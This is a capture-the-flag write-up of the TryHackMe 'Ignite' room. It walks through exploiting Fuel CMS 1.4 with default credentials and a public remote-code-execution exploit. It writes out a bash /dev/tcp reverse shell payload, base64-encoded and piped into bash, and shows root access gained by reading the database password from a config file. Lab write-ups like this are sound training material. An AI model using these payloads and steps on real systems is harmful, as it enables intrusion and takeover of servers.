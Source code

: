 # THM: Ignite

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/ignite/ignite.png" alt="Ignite" width="90"/> |
| Room | Ignite |
| URL | https://tryhackme.com/room/ignite |
| Difficulty | Easy |

## Concepts/Tools Used

- [netcat](../../tools/netcat.md)
- [nmap](../../tools/nmap.md)
- [Searchsploit](../../tools/searchsploit.md)
- Base64 Encoding

## Room Description

A new start-up has a few issues with their web server.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-17 06:00 BST
Nmap scan report for target.thm (10.10.56.91)
Host is up (0.00014s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
MAC Address: 02:4F:B3:1C:25:11 (Unknown)
```

I notice that an http server is running on port 80 and so I take a look at the site with Firefox.

![Ignite Homepage](../../images/write_ups/try_hack_me/ignite/homepage.png)

The site is using the Fuel CMS version 1.4 software. Near the bottom it mentions that the default username and password are admin:admin.

The nmap scan above mentioned the /fuel/ directory. When I browse that page I notice that it is a login page for the Fuel CMS.

![Fuel CMS Login Page](../../images/write_ups/try_hack_me/ignite/login.png)

I use the credentials found earlier, and I am in.

## Getting a Foothold

I looked around for a place where I could inject PHP code and run a remote shell. I was unable to find anything and so I ran the following command to see if I could find an exploit in Fuel CMS:

```bash
$ searchsploit fuel cms 1.4
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                 | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)            | php/webapps/48778.txt
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I start at the top of the list with 47138 and copy it to my current directory using the following command:

```bash
$ searchsploit -m 47138
```

I look at the script and see that it is for python 2 (python3 requires the print function to have parentheses around what gets printed). I make two alterations to the script:

- The url variable on line 14 gets updated from "http://127.0.0.1:8881" to "http://target.thm".
- The proxy variable on line 25 gets updated from {"http":"http://127.0.0.1:8080"} to {}.

I run the script with the following command:

```bash
$ python 47138.py
cmd:whoami
systemwww-data

<div style="...
```

I now have remote code execution on the machine. Now I run a few commands to get the contents of the flag.txt file:

```bash
cmd:ls -lha /home
systemtotal 12K
drwxr-xr-x  3 root     root     4.0K Jul 26  2019 .
drwxr-xr-x 24 root     root     4.0K Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4.0K Jul 26  2019 www-data
```

I check what files are in the /home/www-data directory:

```bash
cmd:ls -lha /home/www-data
systemtotal 12K
drwx--x--x 2 www-data www-data 4.0K Jul 26  2019 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
```

I get the contents of the flag.txt file:

```bash
cmd:cat /home/www-data/flag.txt
systemREDACTED
```

I don't want to keep running commands like this, I need a reverse shell. I setup a listener on my machine in a new terminal with the following command:

```bash
$ nc -lnvp 4444
```

I tried to get a reverse shell using commands [found here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Each time I ran the commands on the site above, none of them worked. I have used those commands before and I know they are good commands. I remembered that sometimes you need deliver the payload a different way to actually run it.

With that in mind, I base64 encoded the payload so that it could transfer properly. Here is the command I used to encode it:

```bash
$ echo "bash -i >& /dev/tcp/<attack_box_ip>/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==
```

I am using a command that will not work because the attack_box_ip must be filled in. I took the output of the previous command and ran:

```bash
$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==" | base64 -d | bash
```

I have a shell. I'm in!

## Privilege Escalation

I ran my [usual list of commands](../../README.md#linux-privilege-escalation). This didn't yield anything.

I remembered that the homepage of Fuel CMS mentioned where the configuration files were stored. I ran the following command:

```bash
$ cat /var/www/html/fuel/application/config/database.php
```

The output had some interesting lines:

```bash
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => REDACTED,
	'database' => 'fuel_schema',
...
```

Since the username is root. I tried to log in as the root user with that password:

```bash
$ su root
```

It worked. I'm in! The cursor changed to the # character to let me know that I was root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
